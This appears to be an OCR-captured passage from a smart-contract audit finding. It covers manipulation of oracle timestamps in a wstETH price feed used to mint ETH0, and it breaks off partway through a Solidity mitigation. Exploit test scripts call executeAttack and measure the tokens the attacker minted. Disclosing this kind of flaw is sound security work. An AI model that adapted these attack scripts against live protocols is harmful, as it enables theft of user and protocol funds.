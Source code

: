 
```javascript
// Test script
async function testExploit() {
    const exploit = await ethers.getContractAt("ETH0OracleExploit", EXPLOIT_ADDRESS);
    


    // Verify oracle timestamp manipulation
    const timestamp = await exploit.testOracleTimestamp();
    console.log("Oracle timestamp:", timestamp.toString());
    console.log("Block timestamp:", (await ethers.provider.getBlock("latest")).timestamp);
   

    // Execute attack with 1000 wstETH
    const amount = ethers.utils.parseEther("1000");
    await exploit.executeAttack(amount);
}

```

```javascript
// Verification script
async function verifyImpact() {
    const daoCollateral = await ethers.getContractAt("IDaoCollateral", DAO_COLLATERAL_ADDRESS);
    const eth0 = await ethers.getContractAt("IERC20", ETH0_ADDRESS);
    
    // Check ETH0 balance of attacker
    const balance = await eth0.balanceOf(EXPLOIT_ADDRESS);
    console.log("ETH0 minted:", ethers.utils.formatEther(balance));
    
    // Check protocol's collateralization
    const treasury = await daoCollateral.treasury();
    const wstETH = await ethers.getContractAt("IERC20", WSTETH_ADDRESS);
    const collateral = await wstETH.balanceOf(treasury);
    console.log("wstETH in treasury:", ethers.utils.formatEther(collateral));
}
```

### Mitigation

Here is the mitigation in code:

```solidity // SPDX-License-Identifier: Apache-2.0
pragma solidity 0.8.20;

import {AggregatorV3Interface} from "src/interfaces/oracles/AggregatorV3Interface.sol";
import {IWstETH} from "src/interfaces/IWstETH.sol";

/**
 * @title Fixed LidoProxyWstETHPriceFeed
 * @notice Fixed implementation that properly tracks last update time and validates price data
 */
contract LidoProxyWstETHPriceFeed is AggregatorV3Interface {
    error InvalidDecimalsNumber();
    error StalePrice();
    error InvalidPrice();

    address public immutable WST_ETH_CONTRACT;
    uint8 public constant PRICE_FEED_DECIMALS = 18;
    
    // Added storage variables for proper timestamp tracking
    uint256 public lastUpdateTimestamp;
    uint256 public constant MAX_PRICE_DELAY = 1 hours;
    int256 public lastPrice;

```